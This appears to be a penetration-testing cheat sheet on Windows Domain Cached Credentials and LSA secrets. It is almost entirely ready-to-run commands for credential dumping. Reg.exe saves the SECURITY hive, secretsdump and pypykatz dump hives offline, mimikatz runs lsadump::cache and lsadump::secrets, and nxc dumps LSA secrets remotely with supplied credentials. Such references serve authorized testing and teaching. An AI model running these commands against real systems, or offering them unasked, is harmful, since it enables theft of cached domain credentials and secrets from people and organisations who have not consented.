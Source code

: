 Domain Cached Credentials, store domain logon information when a user logged in to domain computers. For users to logon to domain when DC not accessible.

[SAM](SAM.md)

Hash format: MS-Cache v2 (hashcat 2100)
`CachedLogonCount` key in
`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`

Download cache + LSA secret registry
```powershell
reg.exe save hklm\security security.save
```
(Secretsdump) Offline Dumping caches + LSA secret + SAM (needs system.save)
```bash
secretsdump -system system.save -sam sam.save -security security.save LOCAL
```
(Pypykatz) Offline dumping caches + LSA secret + SAM
```bash
pypykatz registry system.save --sam sam.save --security security.save
```
(Mimikatz) Dumping caches
```bash
mimikatz.exe lsadump::cache
```
(Mimikatz) Dumping LSA secrets
```bash
mimikatz.exe lsadump::secrets
```
(Mimikatz) Offline Dumping LSA secrets
```bash
mimikatz.exe lsadump::secrets security.save system.save
```
(NXC) Remote cache + LSA secrets dump
```bash
nxc smb <TARGET> --local-auth -u <USER> -p <PASS> --lsa
```
